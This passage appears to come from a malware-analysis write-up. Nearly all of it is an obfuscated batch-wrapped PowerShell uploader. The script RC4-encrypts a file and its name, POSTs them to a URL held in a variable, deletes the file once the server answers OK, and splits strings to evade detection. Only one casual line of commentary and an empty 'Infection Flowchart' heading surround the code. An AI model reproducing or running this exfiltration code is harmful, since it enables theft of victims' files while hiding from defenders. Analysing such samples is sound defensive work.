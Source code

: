 ```bat
powershell -command "function dqjQqCAcuxwo{param ($AypZvQNXlqB,$oFoEuXrMFE);$OpsMmFLPLhtK = [System.Text.Encoding]::UTF8.GetBytes($AypZvQNXlqB);    $WTCOeBCxKCA = [System.Text.Encoding]::UTF8.GetBytes($oFoEuXrMFE);$exkQgtSevvHH = New-Object byte[](256);$aFHiHiPvSyCj = New-Object byte[](256);for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$exkQgtSevvHH[$IwMAnTWddEw] = $IwMAnTWddEw;$aFHiHiPvSyCj[$IwMAnTWddEw] = $WTCOeBCxKCA[$IwMAnTWddEw %% $WTCOeBCxKCA.Length];}$zTrCGqDmezfE = 0;for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw] + $aFHiHiPvSyCj[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;}$iFUDhaIUWPC = New-Object byte[] $OpsMmFLPLhtK.Length;$IwMAnTWddEw = 0;$zTrCGqDmezfE = 0;for ($ZBwUQRSnvRO = 0; $ZBwUQRSnvRO -lt $OpsMmFLPLhtK.Length; $ZBwUQRSnvRO++) {$IwMAnTWddEw = ($IwMAnTWddEw + 1) %% 256;$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;$WVKnqgCFOsmZ = ($exkQgtSevvHH[$IwMAnTWddEw] + $exkQgtSevvHH[$zTrCGqDmezfE]) %% 256;$iFUDhaIUWPC[$ZBwUQRSnvRO] = $OpsMmFLPLhtK[$ZBwUQRSnvRO] -bxor $exkQgtSevvHH[$WVKnqgCFOsmZ];}$yJmaZfkmCsIK = [System.Convert]::ToBase64String($iFUDhaIUWPC);return $yJmaZfkmCsIK;};$bWcJabpQCOOF=(Get-Date).Ticks.ToString();$JbCLXcveMq='%tgurl12%';$lXbJSrwCOBN='%~3';$aRmxzjRXbQEn='%~dp0%~2';$ldbmjzEjszem=gc -Path $aRmxzjRXbQEn -Raw | Out-String;Add-Type -AssemblyName 'System.Web';$lXbJSrwCOBN=dqjQqCAcuxwo -AypZvQNXlqB $lXbJSrwCOBN -oFoEuXrMFE $bWcJabpQCOOF;$ldbmjzEjszem=dqjQqCAcuxwo -AypZvQNXlqB $ldbmjzEjszem -oFoEuXrMFE $bWcJabpQCOOF;$mkgEkQZnuGV = [System.Web.HttpUtility]::ParseQueryString('');$mkgEkQZnuGV['%fN12%']=$lXbJSrwCOBN;$mkgEkQZnuGV['%fD12%']=$ldbmjzEjszem;$mkgEkQZnuGV['r']=$bWcJabpQCOOF;$EYHCSDhekYzP=$mkgEkQZnuGV.ToString();$FLuapLlREN=[System.Text.Encoding]::UTF8.GetBytes($EYHCSDhekYzP);$AUkaAFoqKP=[System.Net.WebRequest]::Create($JbCLXcveMq);$AUkaAFoqKP.Method='PO'+'ST';$AUkaAFoqKP.ContentType='appl'+'ic'+'ation/x'+'-ww'+'w-for'+'m-ur'+'le'+'nco'+'ded';$AUkaAFoqKP.UserAgent = 'Moz'+'illa/5'+'.0 (Wi'+'ndows N'+'T 10.0;Wi'+'n64;x64)';$AUkaAFoqKP.ContentLength=$FLuapLlREN.Length;$KcSSLPNfvFL = $AUkaAFoqKP.GetRequestStream();$KcSSLPNfvFL.Write($FLuapLlREN,0,$FLuapLlREN.Length);$KcSSLPNfvFL.Close();$OUeDTggoYiM=$AUkaAFoqKP.GetResponse();if($OUeDTggoYiM.StatusCode -eq [System.Net.HttpStatusCode]::OK){Remove-Item -Path $aRmxzjRXbQEn;$ucBwEXJQluYC='%~dp0up'+'o'+'k.t'+'xt';New-Item -ItemType File -Path $ucBwEXJQluYC;}" > nul
```

This one’s probably running more payloads from the CAB or uploading extra data. It’s another uploader, same vibe as `33283112.bat`. Can you believe how many layers this thing has?

## Infection Flowchart

